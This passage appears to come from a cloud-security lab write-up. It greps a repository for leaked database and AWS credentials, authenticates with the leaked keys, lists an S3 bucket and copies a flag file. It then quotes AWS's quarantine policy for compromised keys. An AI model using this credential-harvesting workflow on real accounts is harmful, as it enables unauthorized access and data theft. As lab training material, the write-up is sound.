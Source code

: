 We see the old finding `d8098af5fbf1aa35ae22e99b9493ffae5d97d58f:log-s3-test/log-upload.php`. But there are some strings, which automated tools can miss, thus it is a good practice to also perform manual search
```
└─$ grep -R "mysqli_connect" . 2> /dev/null
./Backend/include/DB.php:$Connection = mysqli_connect("localhost","root","<REDACTED>","");
./status.php://$Connection = mysqli_connect('localhost','theunite_neeraj', '',) or die("No Connection"); 
```

Let's authenticate by using leaked secrets. We can see that we are `dev-test` user
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}

```

If we list bucket that we found in `d8098af5fbf1aa35ae22e99b9493ffae5d97d58f:log-s3-test/log-upload.php`, and we see our flag and sensitive data
```
└─$ aws s3 ls s3://huge-logistics-transact
2023-07-05 21:53:50         32 flag.txt
2023-07-04 23:15:47          5 transact.log
2023-07-05 21:57:36      51968 web_transactions.csv

```

We can copy everyting using `aws s3 cp s3://huge-logistics-transact . --recursive`. But in our case we just need one file to be printed (flag.txt for examle):
```
└─$ aws s3 cp s3://huge-logistics-transact/flag.txt -   
<REDACTED> 
```

There's a nice article [What to Do If You Inadvertently Expose an AWS Access Key](https://aws.amazon.com/blogs/security/what-to-do-if-you-inadvertently-expose-an-aws-access-key/) that worth reading. AWS attaches `AWSCompromisedKeyQuarantineV2` policy to leaked secrets when detected/notified. The policy denies access to a range of higher risk activities such as creating and deleting resources
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Action": [
                "cloudtrail:LookupEvents",
                "ec2:RequestSpotInstances",
                "ec2:RunInstances",
                "ec2:StartInstances",
                "iam:AddUserToGroup",
                "iam:AttachGroupPolicy",
                "iam:AttachRolePolicy",
                "iam:AttachUserPolicy",
                "iam:ChangePassword",
                "iam:CreateAccessKey",
                "iam:CreateInstanceProfile",
                "iam:CreateLoginProfile",
                "iam:CreatePolicyVersion",
                "iam:CreateRole",
                "iam:CreateUser",
                "iam:DetachUserPolicy",
                "iam:PassRole",
                "iam:PutGroupPolicy",
```